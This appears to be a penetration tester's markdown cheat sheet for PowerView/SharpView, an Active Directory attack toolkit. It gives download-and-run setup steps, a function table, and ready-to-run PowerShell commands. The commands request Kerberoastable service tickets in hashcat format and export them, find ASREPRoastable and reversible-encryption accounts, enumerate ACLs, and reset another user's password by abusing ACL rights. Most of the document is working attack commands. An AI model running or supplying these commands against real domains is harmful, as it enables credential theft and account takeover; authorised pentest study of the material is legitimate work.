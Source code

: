 ==Powerview/SharpView== [Hacktricks](https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/powerview.html?highlight=powerview#powerviewsharpview)

PowerView is a powerful suite of PowerShell tools for Active Directory enumeration and compromise.

## Setup:
#### Install:
1. ```Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "PowerView.ps1"```
2. `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned` ==Adjust execution policy so you can run the command

#### Import: So you can run it
```powershell
Terminal>. .\PowerView.ps1
```


| **Command**                         | **Description**                                                                            |
| ----------------------------------- | ------------------------------------------------------------------------------------------ |
| `Export-PowerViewCSV`               | Append results to a CSV file                                                               |
| `ConvertTo-SID`                     | Convert a User or group name to its SID value                                              |
| `Get-DomainSPNTicket`               | Requests the Kerberos ticket for a specified Service Principal Name (SPN) account          |
| **Domain/LDAP Functions:**          |                                                                                            |
| `Get-Domain`                        | Will return the AD object for the current (or specified) domain                            |
| ==`Get-DomainController`==          | Return a list of the Domain Controllers for the specified domain                           |
| ==`Get-DomainUser`==                | Will return all users or specific user objects in AD                                       |
| `Get-DomainComputer`                | Will return all computers or specific computer objects in AD                               |
| `Get-DomainGroup`                   | Will return all groups or specific group objects in AD                                     |
| `Get-DomainOU`                      | Search for all or specific OU objects in AD                                                |
| `Find-InterestingDomainAcl`         | Finds object ACLs in the domain with modification rights set to non-built in objects       |
| `Get-DomainGroupMember`             | Will return the members of a specific domain group                                         |
| `Get-DomainFileServer`              | Returns a list of servers likely functioning as file servers                               |
| `Get-DomainDFSShare`                | Returns a list of all distributed file systems for the current (or specified) domain       |
| `Get-DomainObjectACL`               | Get the ACL of an object                                                                   |
| **GPO Functions:**                  |                                                                                            |
| `Get-DomainGPO`                     | Will return all GPOs or specific GPO objects in AD                                         |
| `Get-DomainPolicy`                  | Returns the default domain policy or the domain controller policy for the current domain   |
| **Computer Enumeration Functions:** |                                                                                            |
| `Get-NetLocalGroup`                 | Enumerates local groups on the local or a remote machine                                   |
| `Get-NetLocalGroupMember`           | Enumerates members of a specific local group                                               |
| `Get-NetShare`                      | Returns open shares on the local (or a remote) machine                                     |
| `Get-NetSession`                    | Will return session information for the local (or a remote) machine                        |
| `Test-AdminAccess`                  | Tests if the current user has administrative access to the local (or a remote) machine     |
| **Threaded 'Meta'-Functions:**      |                                                                                            |
| `Find-DomainUserLocation`           | Finds machines where specific users are logged in                                          |
| `Find-DomainShare`                  | Finds reachable shares on domain machines                                                  |
| `Find-InterestingDomainShareFile`   | Searches for files matching specific criteria on readable shares in the domain             |
| `Find-LocalAdminAccess`             | Find machines on the local domain where the current user has local administrator access    |
| **Domain Trust Functions:**         |                                                                                            |
| `Get-DomainTrust`                   | Returns domain trusts for the current domain or a specified domain                         |
| `Get-ForestTrust`                   | Returns all forest trusts for the current forest or a specified forest                     |
| `Get-DomainForeignUser`             | Enumerates users who are in groups outside of the user's domain                            |
| `Get-DomainForeignGroupMember`      | Enumerates groups with users outside of the group's domain and returns each foreign member |
| `Get-DomainTrustMapping`            | Will enumerate all trusts for the current domain and any others seen.                      |

```powershell
Get-DomainUser -Identity mmorgan -Domain inlanefreight.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol # Enumerate user information

Get-DomainGroupMember -Identity <groupname> -Recurse # Get all members of a group

Get-DomainTrustMapping # Enumerate domain trusts

Test-AdminAccess -ComputerName <computername>

1. Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName # Get Kerberoastable users (Service Accts with SPN)

2. Get-DomainUser -Identity <user> | Get-DomainSPNTicket       -Format hashcat # After finding a kerberoastable user, request their ticket in hashcat format

3. Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
# Request all users and export tickets to a file in hashcat format

Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}
# Find users that have reversable encryption enabled
```



# Access Control Lists
```powershell

$sid = Convert-NameToSid <user> # Get SID from username
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq <sid> } # Get ACL of user via sid

$guid= <GUID> 
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl # Get object from GUID

Get-DomainObjectACL -ResolveGUIDs -Identity <identity of interest or wildcard> | ? {$_.SecurityIdentifier -eq $sid} # Combine previous steps, resolve GUID in command

foreach($line in [System.IO.File]::ReadLines(<valid_users_file>)) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<domain>\\<user>'}} # List powers we have as the specified user

Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
# Find the groups another group is a part of (Does the group have any interesting inheritance from other more privileged groups?)

Set-DomainUserPassword -Identity <target username> -AccountPassword <new pscredential object> -Credential <user with privileges pscredential object> -Verbose # Reset another users' password using our ACL powers

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
# Find users with Powerview who are vulnerable to ASRepRoasting

```

PowerView is now maintained by BC-Security, who have taken over the Powershell Empire project and its GUI Starkiller. Additionally, another fork exists written in C# under the name [[SharpView]].
